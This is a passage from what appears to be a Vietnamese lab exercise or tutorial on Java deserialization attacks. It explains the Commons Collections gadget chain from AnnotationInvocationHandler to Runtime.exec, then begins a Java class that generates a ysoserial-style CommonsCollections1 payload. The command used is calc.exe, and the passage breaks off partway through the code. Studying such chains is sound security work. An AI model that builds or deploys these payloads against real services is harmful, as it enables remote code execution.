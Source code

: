 
---

##### 5. `AnnotationInvocationHandler`

- **Mục đích**: Là một lớp nội bộ của Java, thường được sử dụng để xử lý các annotation.​
    
- **Cơ chế hoạt động**: Khi được deserialized, nếu chứa một `Map` được proxy hóa, việc truy cập các phương thức như `entrySet()` sẽ kích hoạt `invoke()` trên proxy, dẫn đến việc gọi `get()` trên `LazyMap`.​
    
- **Vai trò trong gadget chain**: Là điểm khởi đầu của chuỗi gadget, nơi việc deserialization dẫn đến việc gọi `get()` trên `LazyMap`, kích hoạt chuỗi `Transformer`.

### 2. Hiểu luồng thực thi (Gadget Chain)

Khi một đối tượng độc hại được **deserialize**, luồng thực thi diễn ra như sau:

```js
ObjectInputStream.readObject() 
 → AnnotationInvocationHandler.readObject()
   → Proxy Map.entrySet()
     → AnnotationInvocationHandler.invoke()
       → LazyMap.get()
         → ChainedTransformer.transform()
           → ConstantTransformer.transform()
           → InvokerTransformer.transform() x 3 lần
               → Class.getMethod()
               → Runtime.getRuntime()
               → Runtime.exec("calc")
```

### **c. Tự viết lại class tạo gadget payload, sau đó test và debug với chương trình ở phần 2a. Lặp lại các bước 2b, 2c cho đến khi viết được thành công class tạo gadget.**

##### ✅ **Bước 1: Viết class tạo payload gadget**

Tạo file ví dụ như `CommonsCollections1` để dựng payload tương tự gadgetchain của ysoserial.

```js
package com.example;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Proxy;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollections1 {  
    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {  
        // Command  
        String[] execArgs = {"calc.exe"};  
  
        // Create a ChainTransformer to invoke that command.  
        final Transformer[] transformers = new Transformer[] {  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[] {  
```